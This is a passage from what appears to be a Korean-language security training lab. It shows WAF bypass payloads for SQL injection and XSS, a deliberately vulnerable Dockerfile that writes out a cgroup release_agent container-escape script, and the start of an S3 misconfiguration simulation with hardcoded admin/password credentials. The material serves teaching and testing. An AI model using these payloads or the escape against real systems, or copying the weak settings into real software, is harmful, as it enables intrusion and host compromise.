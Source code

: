 ```javascript
// WAF 우회 기법 모듈
const wafBypassTechniques = {
    title: "WAF Bypass Techniques",
    
    techniques: [
        {
            name: "URL Encoding",
            original: "' UNION SELECT * FROM users--",
            bypassed: "%27%20UNION%20SELECT%20*%20FROM%20users--"
        },
        {
            name: "Case Variation", 
            original: "<script>alert(1)</script>",
            bypassed: "<ScRiPt>alert(1)</ScRiPt>"
        },
        {
            name: "Comment Insertion",
            original: "UNION SELECT",
            bypassed: "UNION/**/SELECT"
        },
        {
            name: "Double Encoding",
            original: "'",
            bypassed: "%2527"
        }
    ]
};
```

### Container Escape 시나리오
```dockerfile
# 의도적으로 취약한 컨테이너 설정
FROM alpine:latest

# 취약점: privileged mode, host 네트워크 노출
# docker run --privileged --net=host vulnerable-container

# Container Escape 시뮬레이션
RUN echo '#!/bin/bash' > /escape.sh && \
    echo 'mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x' >> /escape.sh && \
    echo 'echo 1 > /tmp/cgrp/x/notify_on_release' >> /escape.sh && \
    echo 'host_path=`sed -n "s/.*\perdir=\([^,]*\).*/\1/p" /etc/mtab`' >> /escape.sh && \
    echo 'echo "$host_path/escape.sh" > /tmp/cgrp/release_agent' >> /escape.sh && \
    chmod +x /escape.sh
```

## 🎯 **4단계: 클라우드 보안 시나리오**

### AWS S3 버킷 오설정 시뮬레이션
```javascript
// S3 버킷 취약점 시뮬레이션 (MinIO 사용)
const s3SecurityTest = {
    title: "Cloud Storage Security Testing",
    
    // MinIO 서버 설정 (S3 호환)
    setupMinIO: function() {
        return {
            endpoint: 'http://minio:9000',
            accessKey: 'admin',
            secretKey: 'password',
            bucket: 'vulnerable-bucket'
```